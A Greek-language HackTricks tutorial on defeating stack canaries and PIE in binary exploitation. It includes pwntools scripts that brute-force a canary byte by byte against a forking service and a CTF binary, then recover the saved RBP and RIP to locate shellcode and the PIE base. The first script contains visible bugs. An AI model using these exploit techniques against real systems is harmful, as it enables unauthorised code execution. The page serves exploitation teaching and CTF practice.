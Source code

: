 <details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>


**Εάν αντιμετωπίζετε ένα δυαδικό αρχείο που προστατεύεται από ένα canary και το PIE (Position Independent Executable), πιθανώς να χρειαστεί να βρείτε έναν τρόπο να τα παρακάμψετε.**

![](<../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
Σημειώστε ότι το **`checksec`** μπορεί να μην ανιχνεύσει ότι ένα δυαδικό αρχείο προστατεύεται από ένα canary εάν αυτό έχει συντακτεί στατικά και δεν είναι ικανό να αναγνωρίσει τη λειτουργία.\
Ωστόσο, μπορείτε να παρατηρήσετε χειροκίνητα αυτό εάν βρείτε ότι μια τιμή αποθηκεύεται στη στοίβα στην αρχή μιας κλήσης συνάρτησης και αυτή η τιμή ελέγχεται πριν από την έξοδο.
{% endhint %}

# Βίαιη επίθεση στον Canary

Ο καλύτερος τρόπος να παρακάμψετε έναν απλό canary είναι εάν το δυαδικό αρχείο είναι ένα πρόγραμμα που **δημιουργεί νέες διεργασίες κάθε φορά που καθιερώνετε μια νέα σύνδεση** μαζί του (υπηρεσία δικτύου), επειδή κάθε φορά που συνδέεστε σε αυτό **θα χρησιμοποιηθεί το ίδιο canary**.

Στη συνέχεια, ο καλύτερος τρόπος να παρακάμψετε τον canary είναι απλά να τον **επιτεθείτε βίαια χαρακτήρα προς χαρακτήρα**, και μπορείτε να καταλάβετε εάν το μάντεψε byte του canary ήταν σωστό ελέγχοντας εάν το πρόγραμμα έχει καταρρεύσει ή συνεχίζει την κανονική του ροή. Σε αυτό το παράδειγμα η συνάρτηση **επιτίθεται βίαια σε ένα canary 8 Bytes (x64)** και διακρίνει ανάμεσα σε ένα σωστά μαντεμένο byte και ένα κακό byte απλά **ελέγχοντας** αν ένας **αποκριθείς** στέλνεται πίσω από τον διακομιστή (μια άλλη μέθοδος σε **άλλη κατάσταση** θα μπορούσε να είναι η χρήση ενός **try/except**):

## Παράδειγμα 1

Αυτό το παράδειγμα έχει υλοποιηθεί για 64bit αλλά μπορεί εύκολα να υλοποιηθεί για 32bit.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
## Παράδειγμα 2

Αυτό υλοποιείται για 32 bits, αλλά μπορεί να αλλάξει εύκολα σε 64 bits.\
Επίσης, παρατηρήστε ότι για αυτό το παράδειγμα το **πρόγραμμα αναμένει πρώτα ένα byte για να υποδείξει το μέγεθος της εισόδου** και του φορτίου.
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
# Εκτύπωση Canary

Ένας άλλος τρόπος για να παρακάμψετε το canary είναι να το **εκτυπώσετε**.\
Φανταστείτε μια κατάσταση όπου ένα πρόγραμμα ευάλωτο σε stack overflow μπορεί να εκτελέσει μια συνάρτηση **puts** που δείχνει σε μέρος του stack overflow. Ο επιτιθέμενος γνωρίζει ότι το **πρώτο byte του canary είναι ένα μηδενικό byte** (`\x00`) και τα υπόλοιπα bytes του canary είναι **τυχαία** bytes. Έπειτα, ο επιτιθέμενος μπορεί να δημιουργήσει ένα overflow που **αντικαθιστά το stack μέχρι το πρώτο byte του canary**.\
Στη συνέχεια, ο επιτιθέμενος **καλεί τη λειτουργικότητα puts** στη μέση του payload, η οποία θα **εκτυπώσει όλο το canary** (εκτός από το πρώτο μηδενικό byte).\
Με αυτές τις πληροφορίες, ο επιτιθέμενος μπορεί να **δημιουργήσει και να στείλει μια νέα επίθεση** γνωρίζοντας το canary (στην ίδια συνεδρία του προγράμματος)

Φυσικά, αυτή η τακτική είναι πολύ **περιορισμένη**, καθώς ο επιτιθέμενος πρέπει να είναι σε θέση να **εκτυπώσει** το **περιεχόμενο** του **payload** για να **αποκτήσει** το **canary** και στη συνέχεια να είναι σε θέση να δημιουργήσει ένα νέο payload (στην **ίδια συνεδρία του προγράμματος**) και να **στείλει** το **πραγματικό buffer overflow**.\
Παράδειγμα CTF: [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)

# PIE

Για να παρακάμψετε το PIE, πρέπει να **διαρρεύσετε μια διεύθυνση**. Και αν το δυαδικό δεν διαρρέει καμία διεύθυνση, το καλύτερο είναι να **δοκιμάσετε όλες τις πιθανές τιμές για το RBP και το RIP που αποθηκεύονται στο stack** στην ευάλωτη συνάρτηση.\
Για παράδειγμα, αν ένα δυαδικό προστατεύεται χρησιμοποιώντας τόσο το **canary** όσο και το **PIE**, μπορείτε να ξεκινήσετε τη δοκιμή όλων των πιθανών τιμών για το canary, και στη συνέχεια τα **επόμενα** 8 bytes (x64) θα είναι το αποθηκευμένο **RBP** και τα **επόμενα** 8 bytes θα είναι το αποθηκευμένο **RIP**.

Για να δοκιμάσετε όλες τις πιθανές τιμές για το RBP και το RIP από το δυαδικό, μπορείτε να καταλάβετε ότι ένα σωστά μαντεμένο byte είναι σωστό αν το πρόγραμμα εμφανίζει κάτι ή αν δεν καταρρέει. Η **ίδια συνάρτηση** που παρέχεται για τη δοκιμή του canary μπορεί να χρησιμοποιηθεί για τη δοκιμή του RBP και του RIP:
```python
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
## Λήψη βασικής διεύθυνσης

Το τελευταίο πράγμα που χρειάζεστε για να ξεπεράσετε το PIE είναι να υπολογίσετε **χρήσιμες διευθύνσεις από τις διαρρεύσεις** διευθύνσεων: το **RBP** και το **RIP**.

Από το **RBP** μπορείτε να υπολογίσετε **πού γράφετε το shell σας στο stack**. Αυτό μπορεί να είναι πολύ χρήσιμο για να γνωρίζετε πού θα γράψετε το string _"/bin/sh\x00"_ μέσα στο stack. Για να υπολογίσετε την απόσταση μεταξύ του διαρρευμένου RBP και του shellcode σας, απλά τοποθετήστε ένα **σημείο διακοπής μετά τη διαρροή του RBP** και ελέγξτε **πού βρίσκεται ο κώδικας του shell σας**, στη συνέχεια, μπορείτε να υπολογίσετε την απόσταση μεταξύ του shellcode και του RBP:
```python
INI_SHELLCODE = RBP - 1152
```
Από το **RIP** μπορείτε να υπολογίσετε τη **βασική διεύθυνση του PIE δυαδικού** που θα χρειαστείτε για να δημιουργήσετε μια **έγκυρη αλυσίδα ROP**.\
Για να υπολογίσετε τη βασική διεύθυνση, απλώς εκτελέστε `objdump -d vunbinary` και ελέγξτε τις τελευταίες διευθύνσεις αποσυναρμολόγησης:

![](<../../.gitbook/assets/image (145).png>)

Σε αυτό το παράδειγμα μπορείτε να δείτε ότι χρειάζεται μόνο **1 byte και μισό** για να εντοπιστεί όλος ο κώδικας, στη συνέχεια, η βασική διεύθυνση σε αυτήν την κατάσταση θα είναι το **διαρρευμένο RIP αλλά τελειώνοντας στο "000"**. Για παράδειγμα, αν διέρρευσε _0x562002970**ecf**_, η βασική διεύθυνση θα είναι _0x562002970**000**_.
```python
elf.address = RIP - (RIP & 0xfff)
```
<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
